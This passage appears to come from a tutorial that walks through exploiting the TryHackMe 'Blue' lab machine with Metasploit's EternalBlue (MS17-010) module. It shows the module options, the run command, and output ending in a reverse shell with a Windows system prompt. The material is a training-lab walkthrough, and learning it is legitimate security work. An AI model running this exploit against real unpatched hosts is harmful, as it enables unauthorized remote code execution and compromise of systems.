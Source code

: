 Metasploitable2 has an [exploitability guide](https://metasploit.help.rapid7.com/docs/metasploitable-2-exploitability-guide) that lists all the exposed ports and vulnerabilities.  Metasploitable3 has a [similar GitHub Wiki](https://github.com/rapid7/metasploitable3/wiki/Vulnerabilities) with everything you need to test out exploits and vulnerabilities.

For this example, I'm going to use TryHackMe's [Blue Room](https://tryhackme.com/room/blue), since the EternalBlue (ms17_010_eternalblue) exploit is pretty reliable.  I'll just target that host (in my case, the IP is 10.10.214.103), and then check options to make sure everything is configured correctly, then `run` the exploit:

```bash
msf5  exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.214.103    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs
   
msf5 > run
[*] Started reverse TCP handler on 10.2.8.137:4444
[*] 10.10.214.103:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.214.103:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.214.103:445     - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.214.103:445 - Connecting to target for exploitation.
...
[+] 10.10.214.103:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.214.103:445 - Sending egg to corrupted connection.
[*] 10.10.214.103:445 - Triggering free of corrupted buffer.
[*] Command shell session 1 opened (10.2.8.137:4444 -> 10.10.214.103:49187) at 2020-06-01 08:29:25 -0500
[+] 10.10.214.103:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.214.103:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.214.103:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

C:\Windows\system32>
```
